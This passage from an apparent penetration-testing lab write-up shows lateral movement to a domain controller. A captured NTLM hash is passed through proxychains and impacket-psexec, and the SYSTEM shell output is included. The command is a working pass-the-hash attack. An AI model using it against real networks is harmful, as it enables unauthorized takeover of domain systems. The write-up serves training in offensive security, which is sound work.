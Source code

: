 We got beccy's (a domain admin) password! Time to get over to the DC.

### Lateral Movement

Because we have the clear text password and NTLM hash for beccy, we can use impacket-psexec to get an interactive shell on DCSRV1. We could use either of these, in this example we use the hash:

{% code overflow="wrap" %}
```batch
kali@kali:~$ proxychains -q impacket-psexec -hashes 00000000000000000000000000000000:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.6.240
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 172.16.6.240.....
[*] Found writable share ADMIN$
[*] Uploading file CGOrpfCz.exe
[*] Opening SVCManager on 172.16.6.240.....
[*] Creating service tahE on 172.16.6.240.....
[*] Starting service tahE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1006]
(c) Microsoft Corporation. All rights reserved.


C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
DCSRV1

C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.6.240
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.6.254
```
{% endcode %}

Penetration test complete! Time to write a report!

{% file src="../../../.gitbook/assets/Module 25 - Assembling the Pieces.pdf" %}
